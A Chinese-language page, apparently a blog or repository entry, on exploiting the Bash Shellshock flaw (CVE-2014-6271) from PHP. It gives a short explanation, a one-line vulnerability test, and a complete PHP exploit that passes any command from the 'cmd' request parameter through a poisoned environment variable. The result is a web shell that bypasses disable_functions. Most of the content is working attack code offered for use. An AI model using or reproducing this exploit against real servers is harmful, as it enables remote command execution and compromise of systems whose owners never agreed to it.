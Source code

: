 
  

##

![](https://gitee.com/fuli009/images/raw/master/public/20210820102323.png)

## 利用Bash Shellshock(CVE-2014-6271)破壳漏洞  

利用条件php < 5.6.2 & bash <= 4.3（破壳）

Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

简单测试是否存在破壳漏洞: 命令行输入`env x='() { :;}; echo vulnerable' bash -c "echo this is a
test"`如果输出了`vulnerable`，则说明存在bash破壳漏洞

![]()

EXP如下:

    
    
    <?php   
    # Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)   
    # Google Dork: none   
    # Date: 10/31/2014   
    # Exploit Author: Ryan King (Starfall)   
    # Vendor Homepage: http://php.net   
    # Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror   
    # Version: 5.* (tested on 5.6.2)   
    # Tested on: Debian 7 and CentOS 5 and 6   
    # CVE: CVE-2014-6271   
      
    function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283   
       $tmp = tempnam(".","data");   
       putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");   
       // In Safe Mode, the user may only alter environment variableswhose names   
       // begin with the prefixes supplied by this directive.   
       // By default, users will only be able to set environment variablesthat   
       // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty,   
       // PHP will let the user modify ANY environment variable!   
       //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail   
       error_log('a',1);  
       $output = @file_get_contents($tmp);   
       @unlink($tmp);   
       if($output != "") return $output;   
       else return "No output, or not vuln.";   
    }   
    echo shellshock($_REQUEST["cmd"]);   
    ?>       
    